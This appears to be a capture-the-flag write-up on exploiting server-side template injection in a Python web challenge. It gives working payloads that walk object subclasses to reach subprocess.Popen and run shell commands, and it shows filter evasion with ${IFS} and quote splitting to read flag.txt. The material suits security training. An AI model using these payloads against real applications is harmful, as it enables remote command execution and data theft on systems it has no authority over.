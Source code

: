 Lets visit our application and we found an entry at `/robots.txt`: 

![image](https://github.com/hash3liZer/khatta/assets/29171692/e1e68f55-784e-4f83-961d-2ef41408f90b)

Lets visit the disallowed URL and it seems to be returning the entered value at the endpoint: 

![image](https://github.com/hash3liZer/khatta/assets/29171692/4dc04931-ecf2-4b47-bf79-5fcdc7f61f32)

Upon sending the request through curl, the server is based on Python and we can try an `SSTI` here: 

![image](https://github.com/hash3liZer/khatta/assets/29171692/a9215dc0-35ea-4023-a599-d659b49220db)

Enter the payload `{{7*7}}` returns me the valid response. From here, we have a lot of public writeups available. Our goal is to read the flag inside `flag.txt` file. First, lets enumerate the `object` class with: 
```python
{{''.__class__.__mro__[1].__subclasses__()}}
```

We find the `subprocess.Popen` function. But first we need to find its index. You can enumerate it through the url directly by slicing the returned list. Keep repeating the step until you find the right index: 
```python
{{''.__class__.__mro__[1].__subclasses__()[203:]}}
```

You can find the index at `367`:

![image](https://github.com/hash3liZer/khatta/assets/29171692/fa9ecdbf-0051-4e23-8d48-6c5f13743fea)

And execute the command: 
```python
{{''.__class__.__mro__[1].__subclasses__()[367]('whoami',shell=True,stdout=-1).communicate()}}****
```

But while reading the flag, we get the command is filtered. Lets apply the same technique we did in the previous challenge and we get the response `Invalid Flag`: 
```python
{{''.__class__.__mro__[1].__subclasses__()[367]('cat${IFS}fla""g.t""xt',shell=True,stdout=-1).communicate()}}
```

It seems as if the returned response is being also filtered. We can simply cut the first 3 letters and try to capture the flag: 

```python
{{''.__class__.__mro__[1].__subclasses__()[367]('cat${IFS}fla""g.t""xt|cut${IFS}-b4-',shell=True,stdout=-1).communicate()}}
```

![image](https://github.com/hash3liZer/khatta/assets/29171692/6fc7a331-f73f-44a3-8440-dc7c33af692f)



